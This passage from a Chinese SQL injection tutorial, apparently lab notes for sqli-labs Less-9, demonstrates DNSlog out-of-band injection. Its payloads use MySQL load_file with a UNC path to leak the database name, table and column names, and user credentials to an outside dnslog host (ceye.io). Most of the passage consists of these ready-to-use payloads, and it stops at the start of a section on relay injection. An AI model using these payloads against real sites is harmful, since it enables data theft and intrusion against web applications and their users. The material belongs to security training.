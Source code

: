 http://127.0.0.1/lou/sql/Less-9/?id=1' and load_file(concat('\\\\',(select database()),'.cmr1ua.ceye.io\\abc'))--+
```

 通过dnslog查看到数据名为security

![img](https://s2.loli.net/2022/11/25/joIOd8LWDfbXeFN.png)

 **获取数据表**

```
http://127.0.0.1/lou/sql/Less-9/?id=1' and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.cmr1ua.ceye.io\\abc'))--+
```

**获取表中的字段名**

```
' and load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='users' limit 0,1),'.cmr1ua.ceye.io\\abc'))--+
```

**获取表中字段下的数据**

```
' and load_file(concat('\\\\',(select password from users limit 0,1),'.cmr1ua.ceye.io\\abc'))--+
' and load_file(concat('\\\\',(select username from users limit 0,1),'.cmr1ua.ceye.io\\abc'))--+
```

因为在load_file里面不能使用@ ~等符号所以要区分数据我们可以先用group_ws()函数分割在用hex()函数转成十六进制即可 出来了再转回去

```
' and load_file(concat('\\\\',(select hex(concat_ws('~',username,password)) from users limit 0,1),'.cmr1ua.ceye.io\\abc'))--+
```

参考资料：https://www.cnblogs.com/xhds/p/12322839.html



# 4、中转注入



编写php脚本，



